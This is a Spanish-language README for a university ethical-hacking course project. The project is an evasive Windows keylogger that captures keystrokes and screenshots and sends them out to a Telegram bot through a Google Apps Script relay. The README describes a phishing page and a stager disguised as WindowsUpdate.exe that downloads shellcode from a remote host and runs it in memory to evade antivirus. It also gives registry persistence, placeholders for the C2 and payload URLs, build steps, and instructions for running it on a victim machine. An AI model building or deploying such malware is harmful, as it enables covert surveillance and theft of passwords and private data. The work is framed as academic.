

<div align="center">


**Trabajo parcial — Universidad Peruana de Ciencias Aplicadas**  
**Curso:** Hacking Ético — **Sección:** 16155

</div>

---

## 📖 Descripción

> **Keylogger evasivo** desarrollado en **C++** que captura las pulsaciones del teclado, realiza capturas de pantalla periódicas y exfiltra toda la información a un **bot de Telegram** mediante un **Google Apps Script** como relay. El payload se ejecuta **directamente en memoria** para evadir antivirus basados en firmas.

> [!WARNING]
> Todo el desarrollo y las pruebas se realizaron en un **entorno controlado** con fines **exclusivamente académicos**.

---

## 👥 Integrantes

<table align="center">
  <tr>
    <th>👤 Nombre</th>
    <th>🆔 Código</th>
  </tr>
  <tr>
    <td>Rodrigo Aragon, Alcalde Cabanillas</td>
    <td><code>U202514971</code></td>
  </tr>
  <tr>
    <td>Sebastian Victor, Reynoso Roman</td>
    <td><code>U20251F532</code></td>
  </tr>
  <tr>
    <td>Custodio Chavarría Gianpul Jesus</td>
    <td><code>—</code></td>
  </tr>
</table>

---

## ✨ Características

|  | Característica | Descripción |
|:-:|:---------------|:------------|
| 🧠 | **Ejecución en memoria** | El payload se inyecta directamente en RAM, sin tocar disco |
| 🔄 | **Persistencia** | Auto-copia en `%APPDATA%` + registro en `HKCU\Run` |
| ⌨️ | **Captura de teclado** | Hook global `WH_KEYBOARD_LL` |
| 📸 | **Captura de pantalla** | Cada 60s con GDI+ (JPEG, calidad 50%) |
| 📡 | **Exfiltración** | Telegram vía Google Apps Script (HTTPS) |
| 🛡️ | **Evasión de AV** | Shellcode ofuscado con Donut + ejecución en memoria |

---

## 🛠️ Requisitos

<table>
  <tr>
    <td>🔧 <b>Compilador</b></td>
    <td><code>Visual Studio Build Tools 2022 (MSVC)</code></td>
  </tr>
  <tr>
    <td>🍩 <b>Conversión a shellcode</b></td>
    <td><code>Donut v1.0</code></td>
  </tr>
  <tr>
    <td>💻 <b>Entorno de pruebas</b></td>
    <td><code>Windows 10/11 (VM)</code></td>
  </tr>
  <tr>
    <td>🤖 <b>Canal C2</b></td>
    <td><code>Bot de Telegram + Google Apps Script</code></td>
  </tr>
  <tr>
    <td>🌐 <b>Servidor de entrega</b></td>
    <td><code>Kali Linux + LocalXpose</code></td>
  </tr>
</table>

---

## 📦 Estructura del proyecto

```
TrabajoParcial-keylogger-windows/
│
├── 🔑 kl.cpp              → Módulo principal del keylogger
├── 📡 c2.h                → Comunicación HTTP con Apps Script
├── 📸 screenshot.h        → Captura de pantalla con GDI+
├── 📥 stager.cpp          → Stager que descarga el shellcode
├── ⚙️ build.bat           → Script de compilación automatizada
├── 🤖 codigo.gs           → Google Apps Script (relay Telegram)
├── 🎣 index.html          → Página de phishing
├── 📖 README.md           → Documentación
└── 🚫 .gitignore          → Archivos ignorados por Git
```

---

## ⚙️ Instalación

### 1️⃣ Clonar el repositorio

```bash
git clone https://github.com/UntipoCualquiera-07/TrabajoParcial-keylogger-windows.git
cd TrabajoParcial-keylogger-windows
```

### 2️⃣ Configurar endpoints

Edita los archivos y reemplaza las URLs por las tuyas:

**`kl.cpp`** — URL del Google Apps Script:
```cpp
static const wchar_t* C2_URL =
    L"https://script.google.com/macros/s/TU_DEPLOY_ID/exec";
```

**`stager.cpp`** — URL del servidor del payload:
```cpp
static const wchar_t* PAYLOAD_URL =
    L"https://TU-DOMINIO.loclx.io/image.bin";
```

### 3️⃣ Compilar

```bat
build.bat
```

---

## 📤 Artefactos generados

| Icono | Archivo | Descripción |
|:-----:|:--------|:------------|
| 🔑 | `keylogger.dll` | Keylogger compilado como DLL (~64 KB) |
| 💉 | `image.bin` | Shellcode generado con Donut (~83 KB) |
| 📥 | `WindowsUpdate.exe` | Stager final (~158 KB) |

---

## 🚀 Uso



**Pasos:**

1. Ejecutar `WindowsUpdate.exe` en la máquina víctima.
2. El stager se auto-copia y registra persistencia.
3. Descarga y ejecuta `image.bin` en memoria.
4. El keylogger empieza a exfiltrar a Telegram.

---

## ✅ Verificación del ataque

Ejecuta estos comandos en la máquina víctima:

```bat
tasklist | findstr WindowsUpdate
```

```bat
dir "%APPDATA%\Microsoft\Windows\WindowsUpdateSvc.exe"
```

```bat
reg query "HKCU\Software\Microsoft\Windows\CurrentVersion\Run" /v WindowsUpdateSvc
```

```bat
type "%TEMP%\kl_debug.log"
```

---

## 🧹 Limpieza

Para eliminar el keylogger de la máquina víctima:

```bat
taskkill /F /IM WindowsUpdateSvc.exe
```

```bat
reg delete "HKCU\Software\Microsoft\Windows\CurrentVersion\Run" /v WindowsUpdateSvc /f
```

```bat
del "%APPDATA%\Microsoft\Windows\WindowsUpdateSvc.exe"
```

```bat
del "%TEMP%\kl_debug.log"
```

---

## 🔍 Funcionamiento detallado

<details>
<summary><b>🔹 Fase 1 — Compilación (clic para expandir)</b></summary>

<br>

- `build.bat` compila `kl.cpp` → `keylogger.dll`
- Donut convierte la DLL → `image.bin`
- Se compila `stager.cpp` → `WindowsUpdate.exe`

</details>

<details>
<summary><b>🔹 Fase 2 — Despliegue (clic para expandir)</b></summary>

<br>

- La víctima abre la página de phishing
- Descarga `WindowsUpdate.exe`
- El stager se auto-copia a `%APPDATA%\Microsoft\Windows\`
- Se registra en `HKCU\Run` para persistir tras reinicios

</details>

<details>
<summary><b>🔹 Fase 3 — Explotación (clic para expandir)</b></summary>

<br>

- El stager descarga `image.bin` desde el servidor
- Asigna memoria ejecutable con `VirtualAlloc` (`PAGE_EXECUTE_READWRITE`)
- Copia el shellcode y lo ejecuta en un hilo separado
- El shellcode instala el hook de teclado

</details>

<details>
<summary><b>🔹 Fase 4 — Exfiltración (clic para expandir)</b></summary>

<br>

- Cada 60 segundos envía reportes de teclado y capturas
- El Apps Script recibe los POST y los reenvía a Telegram
- El atacante recibe todo en tiempo real

</details>

---

## ⚠️ Advertencia

> [!CAUTION]
> **Este proyecto es exclusivamente para fines académicos y de investigación.**
>
> No debe ser utilizado en sistemas sin autorización explícita por escrito. El uso no autorizado de un keylogger es un delito penal y viola la privacidad de las personas.
>
> Los autores no se hacen responsables del mal uso de este código.

---

## 📚 Referencias

- 🍩 [Donut — TheWover](https://github.com/TheWover/donut)
- 🎯 [MITRE ATT&CK Framework](https://attack.mitre.org/)
- 📖 [Microsoft WinAPI Documentation](https://learn.microsoft.com/en-us/windows/win32/api/)
- 📜 [Google Apps Script Documentation](https://developers.google.com/apps-script)
- 🤖 [Telegram Bot API](https://core.telegram.org/bots/api)

---

## 📄 Licencia

Este proyecto está bajo la **Licencia MIT**.

---

<div align="center">

**⭐ Hecho con 🖤 por el equipo de Hacking Ético — UPC 2026 ⭐**


</div>